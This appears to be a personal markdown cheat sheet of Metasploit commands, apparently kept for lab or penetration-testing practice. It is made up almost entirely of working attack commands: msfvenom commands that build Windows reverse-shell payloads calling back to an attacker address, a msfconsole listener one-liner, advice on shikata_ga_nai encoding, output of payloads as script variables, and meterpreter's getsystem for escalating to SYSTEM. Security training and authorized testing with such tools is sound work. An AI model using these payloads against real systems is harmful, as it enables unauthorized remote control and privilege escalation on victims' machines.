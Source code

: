 # Metasploit commands

## Basics

basic msvenom reverse-shell payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=${PORT} -f exe -o shell
```

One-liner for setting up a listener
```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT ${PORT}; set ExitOnSession false; run"
```
Also, keep in mind that it's worth attempting staged payloads if the unstaged one doesn't work (and vise versa).
e.g. when `windows/x64/shell_reverse_tcp` doesn't work, it's worth it to give  `windows/x64/shell/reverse_tcp` a try.
And also give the 32-bit version a try.
I have seen examples of the 64-bit version just not working for some reason.

## encoding

To see encoders available to you, use `msvenom -l encoders`.

Then, you can something like `-e x86/shikata_ga_nai` when creating the payload.

## Session handling

upgrade recent session to meterpreter session: `sessions -u -1`

## controling the output of msfvenom

A lot of the time, we are looking for a file as the payload. eg:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f python -o shell.py
```

However, if we want to assign the shell to a variable in a script, we can also do that with `-v nameOfVar`, such as:
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f python -v sh
```
which will give us a variable `sh` with the payload as hex. 

## Windows Priv Esc

Using a meterpreter session of from payloads `windows/x64/shell_reverse_tcp` or `windows/shell/reverse_tcp`, you can do this script-kiddie move to privilege escalate:

```
meterpreter > use priv
```
(this might just say `[!] The "priv" extension has already been loaded.`)
```
getsystem
```
and meterpreter will do it's best to get you `NT AUTHORITY\SYSTEM`

